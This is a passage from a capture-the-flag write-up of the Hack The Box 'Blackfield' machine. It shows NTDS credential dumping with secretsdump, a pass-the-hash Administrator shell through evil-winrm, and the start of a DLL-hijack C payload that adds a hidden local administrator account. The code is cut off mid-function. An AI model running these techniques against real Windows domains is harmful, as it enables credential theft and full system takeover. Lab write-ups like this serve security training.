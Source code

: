 Downloading both the newly obtained `SYSTEM.hive` & `ntds.dit` and Running `secretsdump.py` to dump Administrator hash.

#### Administrator Shell

```shell
cfx:  ~/Documents/htb/blackfield
→ secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
[..SNIP..]
```
Getting a WinRM shell using Administrator hash:
```shell
cfx:  ~/Documents/htb/blackfield
→ evil-winrm -i 10.10.10.192 -u Administrator -H '184fb5e5178480be64824d4cd53b99ee'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```
## PrivEsc Method #3 - DLL Hijack

Kudos to [**snowscan**](https://twitter.com/snowscan) for showcasing this privilege escalation method in this [**blog**](https://snowscan.io/htb-writeup-blackfield/#).

In this method we'll abuse `Update Session Orchestrator (USO)` service which runs as NT AUTHORITY\System and tries to load a non-existent DLL (windowscoredeviceinfo.dll) whenever an Update Session is created.

To understand this exploitation method I referred this [**PoC**](https://github.com/itm4n/UsoDllLoader)

Since `svc_backup` user is an member of `Backup Operator` Group, the user is allowed to write files anywhere on the system. For DLL hijacking, the malicious `windowscoredeviceinfo.dll` will be created by using the following code:

This dll will create a new user with credentials `coldfusion:c0!dfusion` and add it to local administrators group.
#### Creating DLL
```shell
cfx:  ~/Documents/htb/blackfield/Hijack
→ cat dllhijack.c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>


int pwn()
{
        WinExec("C:\\Windows\\System32\\net.exe users coldfusion c0!dfusion /add", 0);
        WinExec("C:\\Windows\\System32\\net.exe localgroup administrators coldfusion /add", 0);
        return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
        DWORD  ul_reason_for_call,
```